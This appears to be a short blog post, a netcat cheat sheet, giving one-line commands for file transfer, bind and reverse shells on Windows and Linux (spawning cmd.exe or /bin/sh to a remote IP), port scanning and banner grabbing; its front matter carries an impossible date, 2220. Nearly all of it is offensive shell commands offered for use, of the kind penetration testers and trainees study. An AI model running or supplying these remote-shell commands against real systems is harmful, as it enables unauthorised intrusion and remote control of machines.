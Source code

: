 +++
title = "NetCat CheatSheet"
description = "NetCat CheatSheet"
tags = [ "NetCat", "NC", "CheatSheet", "Easy" ]
date = "2220-09-04"
location = "127.0.0.1"
categories = ["Ncat","CheatSheet"]
slug = "CheatSheet"
type = "post"
+++


### Transfering a File ###

```
nc -lvp 4444 > output.txt        #Receive
nc -nv <IP Address> < input.txt  #Send
```

### Netcat Bind Shell (Windows) ###

```
nc -lvp 4444 -e cmd.exe
nc -nv <IP Address> 4444 #Connect to the shell
```

### Netcat Bind Shell (Linux) ###

```
nc -lvp 4444 -e /bin/sh
nc -nv <IP Address> 4444           #Connect to the shell
```

### Netcat Reverse Shell (Windows) ###

```
nc -lvp 443  # Listening for connection
nc -nv <IP Address> 443 -e cmd.exe
```

### Netcat Reverse Shell (Linux) ###

```
nc -lvp 443
nc -nv <IP Address> 443 -e /bin/sh
```

### Netcat - Port Scanner ###

```
nc -z <IP Address> <Port Range in abc - xyz format>
```

### Netcat Banner Grabbing ###

```
echo "" | nc -nv -w1 <IP Address> <Ports>
```